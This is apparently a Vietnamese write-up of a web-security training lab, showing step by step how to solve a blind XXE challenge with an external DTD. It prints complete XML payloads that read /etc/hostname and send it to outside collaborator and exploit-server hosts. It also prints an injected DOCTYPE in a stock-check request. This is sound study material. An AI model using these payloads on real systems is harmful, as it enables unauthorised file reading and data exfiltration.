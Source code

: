 ```xml 
< ENTITY % file SYSTEM "file:///etc/hostname">
< ENTITY % exploit "< ENTITY % retrieve SYSTEM 'https://acqt9a3m5frh9a007m3dlzkgk7q0ep.oastify.com/?data=%file;'>">
%exploit;
%retrieve;
```

Nội dung tệp DTD này được lưu tại `/exploit.dtd`

 [image](https://hackmd.io/_uploads/r1xpJLxhp.png)

store và view exploit chúng ta được

 [image](https://hackmd.io/_uploads/BJ_XxIeha.png)

Và hiện giờ chúng ta chỉ cần khiến server victim gọi tới tệp DTD này. Định nghĩa một parameter entity như sau:

```xml 
< DOCTYPE cuong [< ENTITY % xxe SYSTEM
"https://exploit-0a0d004e04baf0618069e3c401cf0022.exploit-server.net/exploit.dtd"> %xxe;]>
```

 [image](https://hackmd.io/_uploads/SJL5xIe3p.png)

Sau khi gửi request, server truy cập tới external DTD file do chúng ta tạo và thực hiện các bước theo yêu cầu. Kiểm tra log và mình nhận được chuỗi data và giải quyết được lab này

- với cách khác chúng ta có thể xem được data trên webserver và bài lab cúng cấp

- Trang web cho ta server exploit để tiến hành khai thác out of band, ta sẽ tạo một trang exploit chứa một file a.dtd nhằm lấy nội dung của file /etc/hostname như sau:

 [image](https://hackmd.io/_uploads/BJyEudxna.png)

```xml 
< ENTITY % file SYSTEM "file:///etc/hostname">
< ENTITY % eval "< ENTITY &#x25; exfiltrate SYSTEM 'https://exploit-0a540014042f10ef83f1325901360077.exploit-server.net/exploit?x=%file;'>">
%eval;
%exfiltrate;
```

- Khi truy cập đến URL này, ta sẽ lấy được nội dung của file /etc/hostname vào giá trị của biến x ta đưa trên URL

 [image](https://hackmd.io/_uploads/H1mluul3T.png)

```xml 
<?xml version="1.0" encoding="UTF-8"?>
< DOCTYPE foo [< ENTITY % xxe SYSTEM
"https://exploit-0a540014042f10ef83f1325901360077.exploit-server.net/exploit/a.dtd"> %xxe;]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

 [image](https://hackmd.io/_uploads/Bk7uw_gn6.png)

 [image](https://hackmd.io/_uploads/BJYFvdeha.png)

mục đích của chúng ta đã hoàn thành và mình đã solve được lab này
